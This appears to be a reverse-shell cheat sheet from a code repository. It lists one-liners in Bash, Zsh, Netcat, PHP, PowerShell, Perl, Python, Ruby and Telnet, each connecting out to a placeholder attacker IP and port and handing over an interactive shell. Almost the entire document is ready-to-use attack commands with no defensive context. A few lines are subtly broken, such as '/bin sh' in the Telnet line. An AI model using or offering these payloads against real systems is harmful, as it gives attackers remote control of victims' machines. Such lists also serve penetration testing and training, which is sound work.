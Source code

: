 # Reverse Shell

A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the local host.

> ## **Bash**

```
bash -c 'exec bash -i &>/dev/tcp/[---IP---]/[---PORT---] <&1'
```

---

> ## **Zsh**

```
zsh -c 'zmodload zsh/net/tcp && ztcp [---IP---] [---PORT---] && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
```

---

> ## **Netcat**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [---IP---] [---PORT---] >/tmp/f
```

---

> ## **PHP**


```
php -r '$sock=fsockopen(getenv("[---IP---]"),getenv("[---PORT---]"));exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

> ## **Powershell**

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('[---IP---]',[---PORT---]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

---

> ## **Perl**

```
perl -e 'use Socket;$i="$ENV{[---IP---]}";$p=$ENV{[---PORT---]};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

---

> ## **Python**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[---IP---]",[---PORT---]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

---

> ## **Ruby**

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["[---IP---]"],ENV["[---PORT---]"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

---

> ## **Telnet**

```
TF=$(mktemp -u); mkfifo $TF && telnet [---IP---] [---PORT---] 0<$TF | /bin sh 1>$TF
```

---